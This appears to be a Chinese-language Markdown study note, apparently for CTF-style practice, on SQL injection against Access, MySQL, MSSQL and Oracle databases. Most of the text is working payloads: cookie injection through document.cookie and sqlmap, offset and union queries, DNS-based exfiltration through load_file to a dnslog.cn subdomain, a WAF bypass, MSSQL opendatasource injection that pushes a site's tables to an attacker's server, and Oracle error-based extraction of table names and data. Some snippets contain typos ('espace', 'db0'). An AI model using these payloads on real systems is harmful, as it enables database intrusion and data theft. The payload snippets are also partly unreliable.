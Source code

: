 # Access注入   cookie注入
当get和post传参被拦截的时候就可以利用cookie注入<br>
    当cookie可以被执行时说明有cookie注入<br>
    但是cookie值后面必须是url编格式才会执行
1. 通过burp修改
    cookie    asdsafasasfasfsafa id=171+and+1%3d1这种的才会执行
2. 通过浏览器f12里面的cookie直接添加

3. 通过浏览器f12里面的控制台输入js语句来修改
```js
    document.cookie="id=171"+espace()
    如：
    document.cookie="id="+espace(171 and 1 = 1)
    document.cookie="id="+espace(171 and order by 10)
    document.cookie="id="+espace(171 and select 1,2,3,4,5,6,7,8,9,10 from admin)
因为Access数据表必须接表名才会执行  Access整个就一个没有名字的库  不知道表名怎么办   只能靠猜
    常见的一些表名：admin user news job ···
    也可以利用这个函数：and exists(select * from 表名)     
    document.cookie="id="+espace(171 and exists(select * from admin))来进行尝试
    如果还不行就爆破  --->   抓包   --->   添加到intreder   --->   选中admin   -->   进行爆破
    当返回的长度看不出来的时候可以先打开一个界面，里面找一个数据(英文单词)然后再options里面Grep-Match把匹配到的值clear把刚才那个数据给添加进去就会发现再次爆破时有这个数据的就会打勾方便很多
```
4. sqlmap跑cookie注入

    python sqlmap.py -u "有cookie注入的链接(必须加双引号，锁死)" --cookie "id=171(里面这个值也锁死)" --level 2<br>
    还可以通过抓包来跑 --->  修改原本链接把id=···这些东西删了，然后再cookie后面加上刚删除的东西 最后在这些值后面加上*保存到sqlmap对应的文本中之后就可以通过sqlmap来跑<br>
    python sqlmap.py  --flush-session -r x.txt (--flush-session是忽略缓存，当两个sqlmap再跑是无法刷新会话)

# Access偏移注入
当无法查询表明的情况下可以去 [强行爆破]<br>
当知道了表名不知道字段名的情况下可以尝试用 [偏移注入] 
1. 明白admin.* = * 
```sql
    select * from admin  <===>  select admin.* from admin
    
    select * from admin union select user.* from user(想要查询user表里面的数据但不知道字段名可以尝试用user.*的方法，但前提是必须让前面表的字段名大于后面表的字段名不然查不出数据)
```
2. 注入步骤
    1. 判断注入点
    2. order by 判断字段数
    3. 判断表名
    4. 联合查询
    5. 获取表中数据
    6. 开始偏移注入
3. Access数据库模拟limit 0,1 1,1
```sql
    union select 1,2,3,4,5,6,7,8,9,0 from admin;
    union select 1,2,3,4,5,admin.* from admin;
    union select top 1 admin.* from order by 1 desc;   //   这里的top手机在admin表中一次性查询几条语句，而后面的order by 1 desc是倒叙排列
    document.cookie="id="+escape("171 union select 172,2,3,4,5,6,7,8,9,0 from admin")  --- 优先执行id=171
    document.cookie="id="+escape("171 union select 172,2,3,4,5,6,7,8,9,0 from admin order by 1 desc")  ---   优先执行172因为order by 1 desc是倒序排列不会优先执行id=数值小的而是执行数值大的
```
4. 做题  -->    不一定在同一个界面出现多个漏洞   要在每个页面尝试

# mysql DNS注入
某些无法直接利用漏洞获得回显的情况下，但是目标可以发起请求在这个时候可以通过DNSLog百姓奥那个要获得的数据外带出来<br>
对于sql盲注常见的方法就是二分猜，这样的方法麻烦，还很容易因为数据请求过高被ban  (就是一些盲注   延时盲注  变成显错注入)
所以可以将select到的数据发送给一个url，利用DNS解析产生的记录日志来查看数据<br>
1. select load_file('')  
    支持远程共享文件
2. load_file()函数
    > 读取文件并返回文件里面的内容，但有使用此函数文件必须位于服务器主机上，必须指定完整的路径文件，问且必须有FILE权限，该文件内容必须小于max_allowed_packet(限制数据包大小，默认1mb)，如何该文件或者路径不对会返回null
    > 该功能不是默认开启需要在mysql配置文件中加入"secure_file_priv="
3. UNC路径
    类似\\servername\sharename格式    其中servername是服务器名sharename是共享资源的名称
4. dnslog.cn
    and (select load_file('//',(select database()),'.通过dnslog.cn查询到的域名/随便写名字'))
5. 简单的waf绕过
```sql
    信任欺骗：服务器会认为txt文件不会对网站造成影响，所以txt文件是在信任名单里面，但是如果该目录下没有1.txt文件就会往回查看index.php文件就可以利用1.txt?id=1进行注入(前提是id没有任何防护)
    如：
    index.php/1.txt?id = 1 and (select load_file(concat('//',(select database()),'.dnslog查询到的域名/随便写'))) -- qwe
    index.php/1.txt?id = 1 and (select load_file(concat('//',(select database()),'.1h0kmx.dnslog.cn/abc'))) -- qwe
```

# MSSQL注入——回显注入   
MSSSQL  ==   Sql Server
1. 搭建一个MSSQL环境
https://my.gearhost.com/    虚拟主机
https://bccto.me/           十分钟邮箱
通过navicat连接SQL Server数据库     填写主机名(就是服务器地址)   注册用户名    密码     之后就连接上了
2. 测试是否有注入点
>'   试试特殊字符是否报错
>order by n  来判断是否存在注入
>    union select 1,2,3(这只是在mysql数据库中执行)
>union all select null,null,null(在SQL server数据库中测试显错位必须又字符要求，因为不知道是什么格式的字符所以填写null类型)

3. 注入语句
```sql
select * from dbo.sysdatabases   查询数据库 (但是SQL server数据库对库名要求不是很严格可以越过库命查表)
select * from db0.sysobjects where xtype = 'U'    查询当前数据库的表(后面家的xtype='U'是用户创建的表)
当查字段名时，需要把刚才查询到的表明中的id记录下来
select * from dbo.syscolumns where id = 刚才记录下来的  (如果不添加 id=刚才记录的值 会查出很多字段，想找到想要的字段很费时)
select null,刚才查询到的字段,null from 表     查数据
```
 
# MSSQL注入——反弹注入   opendatasource
明明有sql注入点却无法进行注入，注入工具猜解速度很慢，错误提示信息关闭，等等，比较好解决的办法就是反弹注入<br>
反弹注入就是  --->  目标站点将你想要的数据插入到你的数据库
1. 别人能否访问到
    是否在公网          需要用到虚拟主机     ---->    SQL server数据库
2. insert into 
```sql
                opendatasource('sqloledb',          # 'sqloledb'  是一种访问方式
                'server=连接数据库的地址,端口;uid=用户名;pwd=密码;database=数据库名')
                .数据库.dbo.表名 select * from admin 
?id = 1 ' ; insert into opendata(
'sqloledb',
'server=地址,端口;uid=名字;pwd=密码;database=库名'
 ).库名.dbo.表名 select * from dbo.sysobject where xtype='U' -- qwe
 ```
3. 需要满足的条件   
    必须字段相同    select *   * 和前面库名.dbo.表的表名字段数一定要相同
4. 堆叠注入
    > 可以执行多条数据库语句
    > 传参 ; 能其效果并且执行后面的语句
    > id=1' ; order by 3 -- qwe   可以执行说明存在堆叠注入

# Oracle注入——显错注入
强调用户不强调库的概念    一个用户    ----->    一个库
回显点    回显点的类型相同  order by有数据   --->   显错注入
1. 特性：Dual是一个实表   select * from dual  会返回一个X列名为DUMMY
Dual的存在是为了满足严谨的语法
2. 语句
```sql
select * from v$version         查询版本号
select user from dual           查询当前用户名
select * from all_tables        查询全部的数据表
select * from user_tables       查当前用户用户(库)所在的表
select * from user_tab_columns  查询当前用户下所有表的字段
```
3. 类似limit 0,1  1,1 的
```sql
select * from user_tab_columns where rownum = 1     输出一条数据
select * from user_tab_columns where rownum < 3     输出两条数据
select * from user_tab_columns where rownum = 1 and column_name <> 'ID'     这就会跳过id输出下一个字段
select * from user_tab_columns where rownum = 1 and column_name <> 'ID' and column_name <> 'USER_NAME'      跳过两个字段，以此类推
```

# Oracle注入——报错注入
因为数据类型的原因显错注入变得很难  学会忽略数据类型的的注入方法
1. 场景
盲注   没有回显点     --->    报错注入
是数据库出错，强行丢出一个致命性错误，这个错误信息内容我们可以控制  --->   得到数据
2. 语句
```sql
and 1=ctxsys.drithsx.sn(user,(select banner from v$version where rownum = 1))          查版本
and 1=ctxsys.drithsx.sn(user,(select banner from sys.v_$version where rownum = 1))     查版本
and 1=ctxsys.drithsx.sn(1,(select table_name from user_tables where rownum = 1 and table_name <> 'ID'))   查表明
and 1=ctxsys.drithsx.sn(1,(select column_name from user_tab_columns where table_name = 'ADMIN' and rownum = 1))   查字段名
and 1=ctxsys.drithsx.sn(1,(select flag from admin where rownum = 1))              查数据
```